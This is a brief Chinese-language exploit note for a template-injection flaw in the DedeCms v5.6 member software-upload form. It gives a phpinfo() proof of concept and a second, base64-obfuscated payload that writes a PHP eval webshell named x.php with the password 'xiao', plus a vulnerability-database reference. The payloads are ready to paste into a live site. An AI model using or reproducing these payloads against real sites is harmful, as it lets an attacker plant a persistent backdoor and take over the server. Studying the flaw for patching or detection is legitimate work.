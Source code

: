 # DedeCms-v5.6-嵌入恶意代码执行漏洞

## 漏洞简介

在上传软件的地方，对本地地址没有进行有效的验证，可以被恶意利用。

## 影响版本

DedeCms v5.6

## 复现

注册会员，上传软件：本地地址中填入如下：

### POC

```
a{/dede:link}{dede:toby57 name\="']=0;phpinfo();//"}x{/dede:toby57}，
```

发表后查看或修改即可执行。

### EXP

```
a{/dede:link}{dede:toby57 name\="']=0;fputs(fopen(base64_decode(eC5waHA),w),base64_decode(PD9waHAgZXZhbCgkX1BPU1RbeGlhb10pPz5iYWlkdQ));//"}x{/dede:toby57}
```

生成x.php 密码：xiao直接生成一句话。



## 参考

知道创宇：https://www.seebug.org/vuldb/ssvid-20352